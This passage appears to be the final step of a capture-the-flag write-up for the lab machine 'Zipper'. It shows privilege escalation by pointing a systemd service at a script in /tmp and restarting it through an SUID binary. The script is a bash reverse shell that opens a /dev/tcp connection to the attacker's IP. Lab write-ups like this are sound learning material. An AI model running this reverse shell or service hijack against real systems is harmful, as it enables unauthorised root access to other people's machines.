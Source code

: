 ### purge-backups.service + zappix-service SUID

Looks like our `purge-backups` service calls a bash script from the `/root` directory. Maybe we can change the service to point to a script we create?

```sh
zapper@zipper:~$ cat /etc/systemd/system/purge-backups.service 
[Unit]
Description=Purge Backups (Script)
[Service]
ExecStart=/root/scripts/purge-backups.sh
[Install]
WantedBy=purge-backups.timer
```

I'll change the following line:
`ExecStart=/tmp/shell.sh`

Create `shell.sh`:

```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.199/4545 0>&1
```

Now restart the service:

```sh
zapper@zipper:~/utils$ ./zabbix-service 
start or stop?: stop
zapper@zipper:~/utils$ ./zabbix-service 
start or stop?: start
```

Grab `root.txt` and call it a day.